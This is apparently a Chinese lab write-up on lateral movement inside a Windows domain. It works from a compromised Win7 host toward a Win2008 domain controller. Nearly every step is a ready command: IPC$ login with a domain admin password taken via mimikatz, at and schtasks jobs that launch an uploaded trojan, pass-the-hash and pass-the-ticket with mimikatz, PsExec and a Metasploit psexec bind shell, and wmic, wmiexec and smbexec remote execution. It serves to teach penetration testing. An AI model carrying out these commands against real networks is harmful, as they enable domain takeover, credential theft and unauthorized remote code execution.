



环境
已经拿下了一台域内win7的shell，同时获得了system权限
目标机是一台win2008，ip地址192.168.138.138
ipc连接
使用条件：对方开启了139和445端口&&对方开启了默认共享
通过mimikatz在win7上拿到了域管理员Administrator的明文密码
1 | net use \\192.168.138.138\ipc$ "Admin@123" /user:Administrator |
通过net use查看已经建立的ipc连接
计划任务
思路是通过计划任务运行上传的木马文件从而拿shell
1 | #由于对方在内网，所以要通过正向连接的方式创建木马 |

at
首先要关闭对方的防火墙，否则正向连接会失败
1 | 查看对方当前时间 |
msf成功拿到shell

注：at任务在运行结束以后会自动将计划列表里的任务删除
schtasks
为了方便我们这里先将要执行的命令写到一个bat文件里，然后再运行bat文件
1 | shell.bat |
1 | copy shell.bat \\192.168.138.138\c$ |
注：在使用schtasks的时候会留下日志文件C:/Windows/Tasks/SchedLgu.txt
哈希传递（PTH）
哈希传递（Pass the Hash ）攻击是一种利用 Windows 系统的身份验证机制漏洞的网络攻击方式。攻击者通过获取到已经被哈希过的用户密码信息（而不是明文密码），然后将该信息直接传递给目标系统进行身份验证，从而绕过密码验证步骤来获得系统访问权限（需要管理员权限）。
对于win2012以上的windows，或者win2002以下的打了KB2871997补丁的windows是读不了明文的，而这种攻击方式通常利用 Windows 系统中的 NTLM 身份认证协议，攻击者可以在未授权的情况下获取到用户的 NTLM 哈希值，并使用它来尝试登录目标系统，从而执行任意操作，甚至完全控制受攻击系统。
这里为了演示，先打开win7的3389，再通过操纵win7打win2008
打开3389：run post/windows/manage/enable_rdp
rdesktop连接：rdesktop -u Administrator -p Admin@123 -d sun 192.168.135.150
利用mimikatz拿到了域管理员的NTLM哈希

哈希传递：sekurlsa::pth /user:administrator /domain:sun.com /ntlm:570a9a65db8fba761c1008a51d4c95ab
此时会出现一个新的cmd窗口
同时我们可以通过dir \\dc\c$来看到域控主机c盘下的文件

注：这里只能使用域控的名字而不能使用ip地址访问
票据传递（PTT）
票据传递攻击（Pass the Ticket Attack）是一种利用 Windows 系统的 Kerberos 身份验证协议漏洞的攻击方式。攻击者可以获取到受害者计算机上的 Kerberos 认证票据，并将其传递给其他系统，以获得访问权限。
将内存中的票据导出：sekurlsa::tickets /export
可以看到出现了许多的票据文件

清除内存中的票据文件： kerberos::purge
将票据文件注入内存：
kerberos::ptt "C:\Users\Administrator\Desktop\[0;53e35]-2-0-40e00000-Administrator@krbtgt-SUN.COM.kirbi
同样可以查看域控的c盘文件
区别：
票据传递攻击（Pass the Ticket Attack）和哈希传递攻击（Pass the Hash Attack）都是利用 Windows 系统中的身份验证机制漏洞的攻击方式。它们的区别在于攻击者获取到的信息不同。
票据传递攻击是基于 Kerberos 认证协议的攻击，攻击者通过获取到受害者计算机上的Kerberos 认证票据（TGT），并将其传递给其他系统来获得访问权限。
而哈希传递攻击则是基于 NTLM 身份认证协议的攻击，攻击者通过获取到已经被哈希过的用户密码信息（而不是明文密码），然后将该信息直接传递给目标系统进行身份验证，从而绕过密码验证步骤来获得系统访问权限。
PsExec
PsExec是一个由Sysinternals（现在属于微软）开发的免费实用程序，可以在本地或远程计算机上执行命令。它允许管理员在没有登录目标计算机的情况下，远程执行命令并获取结果。PsExec利用 Windows 系统中的网络共享和远程执行服务，通过远程调用进程、服务等方式来进行远程控制（需要提前下载）。
PsExec 连接到目标计算机并将 PsExec 服务程序复制到目标计算机的系统目录中，同时在目标计算机上启动一个服务 (PSEXESVC)，该服务会等待来自 PsExec 的指令。PsExec 使用 Windows RPC（远程过程调用）协议与 PSEXESVC 通信，以向其发送要执行的命令。PSEXESVC 接收到命令后，会在目标计算机上启动相应的进程，并将结果返回给 PsExec。
在已经建立了ipc的情况下，可以直接通过psexec拿域控的system权限的shell
1 | sExec.exe -accepteula \\192.168.138.138 -s cmd.exe |

如果没有建立ipc也可以通过账户名和密码登录，但前提是该账户有授权
1 | PsExec.exe -accepteula \\192.168.138.138 -u Administrator -p Admin@123 cmd.exe |
这里没有授权所以失败了

同时msf中也带有psexec的攻击模块（要提前搭建内网路由） exploit/windows/smb/psexec
查看options
设置参数
1 | set payload windows/meterpreter/bind_tcp |
成功拿到shell

在msf中使用psexec如果对方防火墙开着的话，就会连接失败
WMI
WMI（Windows Management Instrumentation，Windows管理规范）是一种由微软开发的系统管理技术，用于在Windows操作系统中收集和监控各种系统信息，以及执行系统管理任务。
WMIC（Windows Management Instrumentation Command-Line，Windows管理规范命令行）是一种基于WMI技术的命令行工具，用于在Windows操作系统中执行系统管理任务。通过WMIC命令行工具，管理员可以使用命令行界面来调用WMI接口，并执行各种管理任务，例如获取系统信息、配置系统参数、监控性能和事件等。WMIC命令行工具提供了丰富的命令选项和参数，支持多种数据格式和输出方式，适用于本地计算机和远程计算机上的管理任务。
在win7中输入
1 | wmic /node:192.168.138.138 /user:Administrator /password:Admin@123 process call create "cmd.exe /c ipconfig >ip.txt" |

win2008出现ip.txt说明命令成功执行

也可以通过impacket包（要下载）的wimexec来登录（实测有防火墙也能打）
1 | 用法：wmiexec.py user:pass@ip |

SMB
SMB（Server Message Block，服务器消息块）是一种用于文件和打印机共享的网络协议，通过SMB协议，客户端可以与远程计算机上的共享资源进行通信和交互，例如读取或写入共享文件、访问共享打印机等。SMB协议基于客户端/服务器模型，其中客户端向SMB服务器发送请求，并在响应中获取所需的数据。
SMBexec是一种基于SMB协议的渗透测试工具，利用SMB协议的漏洞和不安全配置与目标计算机进行通信和交互，以执行各种攻击任务。
impacket中有smbexec.py工具可以用来攻击
使用方法和wmiexec类似
1 | proxychains smbexec.py Administrator:Admin@123@192.168.138.138 |
最后
除此之外，还可以利用一些windows内核漏洞（例如永恒之蓝）去横向，就不多说了。
可以看到大多数的横向移动都是建立在拥有一个高权限用户和获取到明文密码的前提下的，所以前期的信息收集和权限提升步骤也不必可少。